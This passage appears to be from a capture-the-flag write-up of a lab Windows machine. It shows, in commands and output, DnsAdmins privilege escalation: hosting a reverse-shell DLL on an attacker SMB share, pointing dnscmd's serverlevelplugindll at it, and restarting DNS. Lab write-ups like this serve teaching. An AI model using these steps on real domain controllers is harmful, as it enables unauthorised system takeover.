 Now, from that same directory, I’ll run an SMB server:

```

root@kali# smbserver.py s .
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

#### Execute Attack

I’ll need to run three commands:
1. Set the server level plugin to be `rev.dll` on my share.
2. Stop the DNS server.
3. Start the DNS server.

I’ll need to do this all within a minute (or less) because, as `note.txt` told me, things revert quickly.

With `nc` listening, I execute the attack:

```
*Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd.exe /config /serverlevelplugindll \\10.10.14.11\s\rev.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe \\resolute stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x7530
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe \\resolute start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2644
        FLAGS              :

```
